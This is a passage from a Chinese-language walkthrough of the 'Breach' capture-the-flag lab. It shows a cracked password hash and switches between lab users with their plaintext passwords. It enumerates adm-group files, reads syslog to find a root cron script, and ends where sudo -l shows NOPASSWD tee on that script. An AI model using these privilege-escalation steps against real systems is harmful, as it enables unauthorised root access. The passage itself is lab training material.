 爆破hash

> 6450d89bd3aff1d893b85d3ad65d2ec2 解密为：thelaststraw

切换到`milton`用户

```sh
milton@Breach:~$ id
uid=1000(milton) gid=1000(milton) groups=1000(milton),4(adm),24(cdrom),30(dip),46(plugdev),110(lpadmin),111(sambashare)
```

这是`adm`组，查找adm权限的文件

```
find / -group adm 2>/dev/null
```

发现`/var/log/syslog`文件

```sh
cat /var/log/syslog
Jun  7 06:10:01 Breach CRON[4901]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:12:01 Breach CRON[4907]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:14:01 Breach CRON[4913]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:16:01 Breach CRON[4919]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:17:01 Breach CRON[4925]: (root) CMD (   cd / && run-parts --report /etc/cron.hourly)
Jun  7 06:17:55 Breach dhclient: DHCPREQUEST of 192.168.110.140 on eth0 to 192.168.110.254 port 67 (xid=0x96b1298)
Jun  7 06:17:55 Breach dhclient: DHCPACK of 192.168.110.140 from 192.168.110.254
Jun  7 06:17:55 Breach dhclient: bound to 192.168.110.140 -- renewal in 857 seconds.
Jun  7 06:18:02 Breach CRON[4938]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:20:01 Breach CRON[4944]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:22:01 Breach CRON[4950]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:24:01 Breach CRON[4956]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:25:01 Breach CRON[4962]: (root) CMD (test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily ))
Jun  7 06:26:01 Breach CRON[5006]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:28:01 Breach CRON[5012]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:30:01 Breach CRON[5018]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:32:01 Breach CRON[5024]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:32:12 Breach dhclient: DHCPREQUEST of 192.168.110.140 on eth0 to 192.168.110.254 port 67 (xid=0x96b1298)
Jun  7 06:32:12 Breach dhclient: DHCPACK of 192.168.110.140 from 192.168.110.254
Jun  7 06:32:12 Breach dhclient: bound to 192.168.110.140 -- renewal in 897 seconds.
Jun  7 06:34:01 Breach CRON[5040]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:36:01 Breach CRON[5046]: (root) CMD (/usr/share/cleanup/tidyup.sh)
Jun  7 06:38:01 Breach CRON[5052]: (root) CMD (/usr/share/cleanup/tidyup.sh)
```

观察发现`/usr/share/cleanup/tidyup.sh`是以root用户执行的（每三分钟执行）

但是没权限编辑

切换到`blumbergh`用户，密码是：coffeestains

```sh
milton@Breach:~$ su - blumbergh
Password: coffeestains

blumbergh@Breach:~$ sudo -l
Matching Defaults entries for blumbergh on Breach:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User blumbergh may run the following commands on Breach:
    (root) NOPASSWD: /usr/bin/tee /usr/share/cleanup/tidyup.sh
```
